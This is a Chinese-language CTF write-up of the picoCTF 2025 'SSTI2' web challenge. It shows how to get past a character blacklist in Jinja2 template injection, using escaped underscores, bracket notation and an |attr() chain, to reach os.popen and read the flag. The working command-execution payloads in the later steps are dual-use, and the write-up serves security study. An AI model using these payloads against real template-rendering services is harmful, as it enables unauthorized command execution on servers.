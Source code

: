 ##### tags:`picoCTF_2025`

# picoCTF Web : SSTI2

<style>
.red {
  color: red;
}
.blue {
  color: blue;
}
.purple {
  color: #7D3382;
}
.light_purple {
  color: #810cf5;
}
</style>

## <span class="red">**題目**</span>

- ![image](https://hackmd.io/_uploads/SkX_zExn1x.png)
- ![image](https://hackmd.io/_uploads/HyjnAIgnkg.png)

## <span class="red">**解題過程**</span>

1. **與 SSTI1 的差別在於，作者加入了 sanitization 的機制，擋掉了所有可能會有問題的字符，首先還是確認一下 ```{{7*7}}``` 的結果是否是 49 ，是就代表不需要更動大括號的部分**

- ![image](https://hackmd.io/_uploads/BJDOQPgn1l.png)

2. **確認過 ```{{7*7}}``` 仍然會是 49 ，接著我會想嘗試看看用全形試試看， payload 就像是
```{{ｃｏｎｆｉｇ.＿＿ｃｌａｓｓ＿＿.＿＿ｉｎｉｔ＿＿.＿＿ｇｌｏｂａｌｓ＿＿['\157\163']}}```
其中 ```\157\163``` 是 os 的八進制轉換(字母 → ASCII → 八進制)結果，會發現結果仍會被黑名單擋掉**

- ![image](https://hackmd.io/_uploads/SkRO-Pln1e.png)

&emsp;

3. **轉而試試 SSTI1 的另外一種解法會不會報錯，payload 是
```{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}``` ，發現會出問題**

&emsp;

4. **首先猜測是 ```.``` 出現問題，那就試試看把 ```.``` 換成 ```[]```
```{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('ls')['read']()}}```**

&emsp;

5. **還是有問題，所以接著把 ```_``` 拿掉換成 ```/x5f```
```{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('ls')['read']()}}```**

&emsp;

6. **最後沒辦法，試試看把 ```.``` , ```_``` , ```[]``` 都拿掉， payload 變成
```{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}```**

- ![image](https://hackmd.io/_uploads/SkCLP3r2kg.png)

&emsp;

7. **結果成功跑出來，所以就直接把 ```ls``` 改成 ```cat flag```
```{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}```**

- ![image](https://hackmd.io/_uploads/H1EsvhBnyx.png)
